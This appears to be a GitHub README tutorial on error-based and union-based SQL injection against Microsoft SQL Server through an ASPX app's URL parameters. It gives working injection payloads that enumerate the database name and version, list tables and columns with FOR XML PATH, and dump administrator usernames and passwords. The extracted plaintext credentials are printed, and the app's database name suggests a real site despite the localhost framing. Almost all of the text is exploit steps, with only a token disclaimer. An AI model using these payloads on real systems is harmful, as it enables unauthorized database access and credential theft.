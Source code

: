 # MSSQL-Injection

Now let's get started the ERROR BASED INJECTION on MSSQL server, MSSQL it's Microsoft SQL Server in this post i will use error based injection with malicious interogation for manipulation database and extract administrator credentials. I will use a vulnerable aspx app in localhost for this example. I do not support these illegal activities !
```sql
 http://localhost/Product.aspx?Id=13 and 1=db_name()--
```

Using this simple query we will see the name of the database.

![Screenshot from 2024-01-25 10-31-38](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/d42f8d12-0fd2-41e6-a6db-3c795ab06f89)

Now the database name is "chemtraders" 
Next step i want to see the DB and OS version for this i will use this query:

```sql
http://localhost/Product.aspx?Id=13 and @@version=1--
```

and output is:

![Screenshot from 2024-01-25 10-34-56](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/94adade4-c58f-49d4-99df-0dcf67fe0c66)

We see "Microsoft SQL Server 2012 ( SP1 )"

Now let's get extract Tables name and Columns from DB with one query:
```sql
http://localhost/Product.aspx?Id=13 and 1=(select+table_name%2b'::'%2bcolumn_name as t+from+information_schema.columns FOR XML PATH(''))--
```
and output is:

![Screenshot from 2024-01-25 10-54-54](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/3fb8189d-d4c9-4e23-b7b4-f692acc6eb26)

Ok now are interested:

AdminLogin ( Table )
UserName ( Column )
Password ( Column )

Let's get dump from this Columns ( UserName and Password ):
```sql
http://localhost/Product.aspx?Id=13 and 1=(select+Password,username+from+AdminLogin FOR XML PATH(''))--
```
Output is:

![Screenshot from 2024-01-25 11-01-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/7704a537-2f76-4bcf-a1e1-886dd15186d4)

```plaintext
Username: admcheter
Password: bweb@chem#123$tre ( this is plaintext )
```

This query it's in Error Based but it is possible and with Union Select

Let's see how we do this

```sql
http://localhost/Category-Product.aspx?id=-6' union select 1,(select table_name%2b'::'%2bcolumn_name as t from information_schema.columns FOR XML PATH('')),3-- -
```

![Screenshot from 2024-01-25 11-11-32](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/41178b9a-951e-4bee-b8e4-dace0a350e9b)

Now we see UserInfo, username and Password.

For this situation i want to extract Administration credential form this columns
```sql
http://localhost/Category-Product.aspx?id=-6' union select 1,(select User_Name,Password from UserInfo FOR XML PATH('')),3-- -
```
![Screenshot from 2024-01-25 11-16-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/abf6e991-823d-42c7-a440-4c6b81441939)
```plaintext
Username: Admin
Password: simplifi@123 ( plaintext )
```
In this query, the FOR XML PATH('') clause is used to concatenate the query results into XML format and to obtain a scalar result.
In practice, this allows the obtained data to be retrieved as a single string, easily manipulable and usable within the SQL injection. The use of FOR XML PATH('') is not necessary in all SQL injection queries, but it can be used to format the results in a way that allows for efficient exploitation of the vulnerability.

We are done tested my MSSQL Server.







